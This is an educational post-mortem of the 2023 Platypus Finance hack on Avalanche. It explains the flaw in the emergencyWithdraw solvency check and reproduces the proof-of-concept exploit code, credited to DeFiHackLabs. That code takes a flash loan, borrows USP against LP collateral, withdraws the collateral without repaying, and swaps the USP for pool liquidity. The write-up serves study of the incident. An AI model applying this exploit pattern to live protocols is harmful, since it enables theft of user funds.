 # Platypus Finance


## What's Platypus Finance?
Platypus Finance is a single-sided Automatic Market Maker (AMM) for stablecoins built on the Avalanche network that is designed to optimize capital efficiency

## Amount stolen
**$8.5 Million USD**

February 16, 2023  


## Vulnerability
Business Logic Flaw


## Analysis

The `emergencyWithdraw` function in the `MasterPlatypus` contract allows a user to withdraw
their LP tokens from a given pool without claiming any accrued rewards.

This function was introduced due to problems where users were unable to use the `withdraw` function to receive their LP tokens.

```solidity
     function emergencyWithdraw(uint256 _pid) public nonReentrant {
       PoolInfo storage pool = poolInfo[_pid];
       UserInfo storage user = userInfo[_pid][msg.sender];


       if (address(platypusTreasure) != address(0x00)) {
           (bool isSolvent, ) = platypusTreasure.isSolvent(msg.sender, address(poolInfo[_pid].lpToken), true);
           require(isSolvent, 'remaining amount exceeds collateral factor');
       }


       // reset rewarder before we update lpSupply and sumOfFactors
       IBoostedMultiRewarder rewarder = pool.rewarder;
       if (address(rewarder) != address(0)) {
           rewarder.onPtpReward(msg.sender, user.amount, 0, user.factor, 0);
       }


       // SafeERC20 is not needed as Asset will revert if transfer fails
       pool.lpToken.transfer(address(msg.sender), user.amount);


       // update non-dialuting factor
       pool.sumOfFactors -= user.factor;


       user.amount = 0;
       user.factor = 0;
       user.rewardDebt = 0;


       emit EmergencyWithdraw(msg.sender, _pid, user.amount);
   }
```

The problem is that there is only one check done by this function, it checks whether the user is solvent or not, 
using `PlatypusTreasure.isSolvent`. 


```solidity
    function _isSolvent(
       address _user,
       ERC20 _token,
       bool _open
   ) internal view returns (bool solvent, uint256 debtAmount) {
       uint256 debtShare = userPositions[_token][_user].debtShare;


       // fast path
       if (debtShare == 0) return (true, 0);


       // totalDebtShare > 0 as debtShare is non-zero
       debtAmount = (debtShare * (
      totalDebtAmount + _interestSinceLastAccrue())) / totalDebtShare;
      solvent = debtAmount <= (
             _open ? _borrowLimitUSP(_user, _token) : _liquidateLimitUSP(_user, _token));
   }
```

The underlying mechanism of this check involves the utilization of an internal function 
named `_isSolvent`. The boolean variable this function returns is true when the user's debt is less than or equal to its USP borrow limit. 

A user is considered solvent if their collateral is sufficient to cover their debt. It's crucial to note that withdrawing collateral 
must not result in any outstanding debt. The `emergencyWithdraw` function allows users with debt to withdraw all collateral 
LP tokens gained from the flash loan without settling the previously borrowed USP associated with that collateral, leaving the protocol indebted.

In many decentralized finance (DeFi) protocols, it is typical for a liquidity pool to automatically repay 
a user's debt when they withdraw their funds. This mechanism ensures that users cannot withdraw their collateral without
settling any outstanding debt they might have incurred while using the protocol.




# proof of concept (PoC) 

![euler Image](../images/platypus.drawio.png)


1. `Flashloan` 44 Million USDC from Aave
2. `Deposit` the borrowed USDC into the `platypus` pool to get LP tokens
4. `Deposit` LP tokens to the `masterPlatypus` contract as **collateral**
5. `Borrow` as much **USP** as possible against the LP collateral
6. Execute `emergencyWithdraw` to get the LP collateral back **without** paying debt
7. Payback flash loan
8. Swap USP for Platypus pool liquidity in the form of other stablecoins.




### Flash Loan

`aaveV3.flashLoanSimple(address(this), address(USDC), 44_000_000 * 1e6, new bytes(0), 0);`
 

### Flash Loan fallback
```solidity
     function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initator,
        bytes calldata params
    ) external returns (bool) {
        USDC.approve(address(aaveV3), amount + premium);
        USDC.approve(address(Pool), amount);

        //step 2: deposit the borrowed USDC into the platypus pool to get LP tokens.
        Pool.deposit(address(USDC), amount, address(this), block.timestamp); // deposit USDC to LP-USDC


        uint256 LPUSDCAmount = LPUSDC.balanceOf(address(this));
        LPUSDC.approve(address(Master), LPUSDCAmount);

        //step 3: deposit LP tokens to the masterPlatypus contract as collateral
        Master.deposit(4, LPUSDCAmount); // deposit LP-USDC to MasterPlatypus


        PlatypusTreasure.PositionView memory Position = Treasure.positionView(address(this), address(LPUSDC));
        uint256 borrowAmount = Position.borrowLimitUSP;

        //step 4: borrow as much USP as possible against the LP collateral
        Treasure.borrow(address(LPUSDC), borrowAmount); // borrow USP from Treasure

        //step 5: execute emergecyWithdraw to get the LP colletral back wihtout paying debt
        Master.emergencyWithdraw(4);


        LPUSDC.approve(address(Pool), LPUSDC.balanceOf(address(this)));

        // step 6: use the LP tokens to withdraw the USDC initisially borrowed from aava to pay back flashloan.
        Pool.withdraw(address(USDC), LPUSDC.balanceOf(address(this)), 0, address(this), block.timestamp); // withdraw USDC from LP-USDC

        // swap USP for playtupuis pool liquidity in form of other
        swapUSPToOtherToken();
        return true;
    }

      function swapUSPToOtherToken() internal {
        USP.approve(address(Pool), 9_000_000 * 1e18);
        Pool.swap(address(USP), address(USDC), 2_500_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDC_E), 2_000_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT), 1_600_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT_E), 1_250_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(BUSD), 700_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(DAI_E), 700_000 * 1e18, 0, address(this), block.timestamp);
    }
```


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Platypus_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)

